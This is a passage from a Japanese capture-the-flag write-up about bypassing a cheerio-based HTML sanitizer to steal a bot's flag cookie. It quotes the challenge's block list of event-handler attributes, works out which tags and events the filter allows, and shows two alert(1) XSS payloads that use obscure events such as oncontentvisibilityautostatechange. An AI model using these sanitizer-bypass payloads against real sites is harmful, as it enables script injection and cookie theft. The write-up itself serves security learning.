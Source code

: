 ```javascript
const attrs = "onafterprint onafterscriptexecute onanimationcancel onanimationend onanimationiteration onanimationstart onauxclick onbeforecopy autofocus onbeforecut onbeforeinput onbeforeprint onbeforescriptexecute onbeforetoggle onbeforeunload onbegin onblur oncanplay oncanplaythrough onchange onclick onclose oncontextmenu oncopy oncuechange oncut ondblclick ondrag ondragend ondragenter ondragexit ondragleave ondragover ondragstart ondrop ondurationchange onend onended onerror onfocus onfocus onfocusin onfocusout onformdata onfullscreenchange onhashchange oninput oninvalid onkeydown onkeypress onkeyup onload onloadeddata onloadedmetadata onloadstart onmessage onmousedown onmouseenter onmouseleave onmousemove onmouseout onmouseover onmouseup onmousewheel onmozfullscreenchange onpagehide onpageshow onpaste onpause onplay onplaying onpointercancel onpointerdown onpointerenter onpointerleave onpointermove onpointerout onpointerover onpointerrawupdate onpointerup onpopstate onprogress onratechange onrepeat onreset onresize onscroll onscrollend onsearch onseeked onseeking onselect onselectionchange onselectstart onshow onsubmit onsuspend ontimeupdate ontoggle ontoggle(popover) ontouchend ontouchmove ontouchstart ontransitioncancel ontransitionend ontransitionrun ontransitionstart onunhandledrejection onunload onvolumechange onwebkitanimationend onwebkitanimationiteration onwebkitanimationstart onwebkitmouseforcechanged onwebkitmouseforcedown onwebkitmouseforceup onwebkitmouseforcewillbegin onwebkitplaybacktargetavailabilitychanged onwebkittransitionend onwebkitwillrevealbottom onwheel".split(" ")
```

URLを送るとCookieにフラグを持ったbotが訪れてくれるので、そのcookieを盗むことが最終目標となる

### 解法

まずは、禁止されていないタグを特定した。cheerioが利用しているparse5のコードの[タグのリスト](https://github.com/inikulin/parse5/blob/561fe0c84cc9efae712f9e27495704c0afcbc4a2/packages/parse5/lib/common/html.ts#L33)と比較する。そうすると、以下のタグが許可されていることが分かった。

```
"annotation-xml","basefont","bgsound","body","desc","foreignObject","h1","h2","h3","h4","h5","h6","i","malignmark","math","mglyph","mi","mo","mn","ms","mtext","option","rb","rp","rt","rtc","ruby","search","style","title","wbr","xmp"
```

`math`タグとそれに付随するタグの多くが許可されていることがわかる。また、cheerioは不明なタグをカスタムタグとして扱うが、カスタムタグは取り除かれないのでそれらも利用できる。

次に、許可されたイベントを見てみる。`for(let a in window) if(a.startswith("on"))console.log(a)`をブラウザで実行して、それと比較した。

```
"onappinstalled","onbeforeinstallprompt","onbeforexrselect","onabort","onbeforematch","oncancel","oncontentvisibilityautostatechange","oncontextlost","oncontextrestored","onemptied","onsecuritypolicyviolation","onslotchange","onstalled","onwaiting","ongotpointercapture","onlostpointercapture","onlanguagechange","onmessageerror","onoffline","ononline","onrejectionhandled","onstorage","ondevicemotion","ondeviceorientation","ondeviceorientationabsolute","onpageswap","onpagereveal","onscrollsnapchange","onscrollsnapchanging"
```

[PortSwiggerのXSSチートシート](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)を見ながら、使えそうなイベントはないかと探ると、いくつか使えそうなペイロードが見つかった。ただし、いずれも75文字という文字数制限内では有効ではなかった。

```html
<x oncontentvisibilityautostatechange=alert(1) style=content-visibility:auto>
```

```html
<h1 onscrollsnapchange=alert(1) style=overflow-y:hidden;scroll-snap-type:x><math style=scroll-snap-align:center>
```
